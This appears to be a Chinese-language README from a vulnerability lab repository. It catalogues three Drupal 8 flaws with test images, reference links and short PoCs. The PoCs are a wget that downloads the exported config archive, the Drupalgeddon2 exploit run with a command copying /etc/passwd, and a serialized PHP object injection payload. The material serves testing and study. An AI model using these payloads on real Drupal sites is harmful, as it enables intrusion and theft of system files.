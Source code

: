 ### config.tar.gz 下载漏洞

测试镜像

* src/drupal/8.1.9/

参考链接

* [Drupal 8 配置文件下载漏洞分析](http://blog.knownsec.com/2016/09/drupal-8-config-download/)

Poc

```
# 后台导出配置后，执行这个
wget 'http://127.0.0.1/system/temporary/?file=config.tar.gz' -O config.tar.gz
```

### CVE-2018-7600 - post_render/call_user_func 命令执行漏洞

测试镜像

* src/drupal/8.3.3/

参考链接

* [dreadlocked/Drupalgeddon2 - Exploit for Drupalgeddon 2 - CVE-2018-7600](https://github.com/dreadlocked/Drupalgeddon2)
* [Uncovering drupalgeddon](https://research.checkpoint.com/uncovering-drupalgeddon-2/)
* [Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002](https://www.drupal.org/sa-core-2018-002)

Poc

```
python2.7 CVE-2018-7600.py http://127.0.0.1/ 'cp /etc/passwd /tmp'
```

### yaml.decode_php 反序列化漏洞

测试镜像

* src/drupal/8.3.3/

参考链接

* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)

影响版本

* <= 8.3.3

Poc

```
打开 /admin/config/development/configuration/single/import

导入 Single configuration

!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```




